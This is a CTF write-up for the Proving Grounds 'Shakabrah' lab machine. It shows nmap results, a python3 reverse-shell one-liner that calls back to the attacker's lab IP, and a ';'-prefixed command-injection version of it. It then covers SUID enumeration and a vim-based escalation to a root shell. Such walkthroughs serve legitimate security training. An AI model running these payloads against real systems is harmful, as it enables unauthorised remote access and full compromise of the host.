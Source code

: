 ```yaml
---
title: "Proving grounds Play: Shakabrah"
layout: post
date: 2023-09-17 01:00
categories: writeup
---
```


Proving grounds Play - Shakabrah CTF writeup.

## Nmap

```sh
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 33b96d350bc5c45a86e0261095487782 (RSA)
|   256 a80fa7738302c1978c25bafea5115f74 (ECDSA)
|_  256 fce99ffef9e04d2d76eecadaafc3399e (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web PORT: 80

![img](/assets/images/CTF/Proving_Grounds/Shakabrah/web.png)

The target is vulnerable to RCE.

![img](/assets/images/CTF/Proving_Grounds/Shakabrah/rce.png)

## Obtain Reverse shell

Obtain reverse shell using python3 reverse shell.

```sh
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.226",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```

```sh
;python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.226",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```

Final payload to get reverse shell.

## Privilege Escalation

### SUID

```sh
www-data@shakabrah:/home/dylan$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/traceroute6.iputils
/usr/bin/at
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/newgidmap
/usr/bin/vim.basic #exploitable
/usr/bin/newuidmap
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/bin/umount
/bin/fusermount
/bin/ping
/bin/mount
/bin/su
```

### GTFO Bins Exploit

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run sh -p, omit the -p argument on systems like Debian (<= Stretch) that allow the default sh shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

This requires that `vim` is compiled with Python support. Prepend :py3 for Python 3.

```sh
./vim -c ':py import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
```

```sh
www-data@shakabrah:/var/www/html$ /usr/bin/vim.basic
:
:py3 import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")
```

![img](/assets/images/CTF/Proving_Grounds/Shakabrah/gtfo.png)

**Root Obtained**

![img](/assets/images/CTF/Proving_Grounds/Shakabrah/root.png)

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).
